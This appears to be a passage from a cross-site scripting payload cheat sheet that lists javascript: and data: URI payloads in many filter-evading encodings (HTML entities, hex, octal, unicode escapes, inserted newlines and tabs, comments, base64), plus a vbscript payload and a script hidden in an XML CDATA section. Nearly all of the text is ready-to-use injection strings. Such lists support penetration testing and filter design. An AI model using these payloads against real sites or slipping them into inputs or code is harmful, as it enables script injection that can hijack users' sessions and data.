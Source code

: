 ## XSS in wrappers javascript and data URI

XSS with javascript:

```javascript
javascript:prompt(1)

%26%23106%26%2397%26%23118%26%2397%26%23115%26%2399%26%23114%26%23105%26%23112%26%23116%26%2358%26%2399%26%23111%26%23110%26%23102%26%23105%26%23114%26%23109%26%2340%26%2349%26%2341

&#106&#97&#118&#97&#115&#99&#114&#105&#112&#116&#58&#99&#111&#110&#102&#105&#114&#109&#40&#49&#41

We can encode the "javascript:" in Hex/Octal
\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3aalert(1)
\u006A\u0061\u0076\u0061\u0073\u0063\u0072\u0069\u0070\u0074\u003aalert(1)
\152\141\166\141\163\143\162\151\160\164\072alert(1)

We can use a 'newline character'
java%0ascript:alert(1)   - LF (\n)
java%09script:alert(1)   - Horizontal tab (\t)
java%0dscript:alert(1)   - CR (\r)

Using the escape character
\j\av\a\s\cr\i\pt\:\a\l\ert\(1\)

Using the newline and a comment //
javascript://%0Aalert(1)
javascript://anything%0D%0A%0D%0Awindow.alert(1)
```

XSS with data:

```javascript
data:text/html,<script>alert(0)</script>
data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+
<script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>
```

XSS with vbscript: only IE

```javascript
vbscript:msgbox("XSS")
```

## XSS in files

** NOTE:** The XML CDATA section is used here so that the JavaScript payload will not be treated as XML markup.

```xml
<name>
  <value><![CDATA[<script>confirm(document.domain)</script>]]></value>
</name>
```
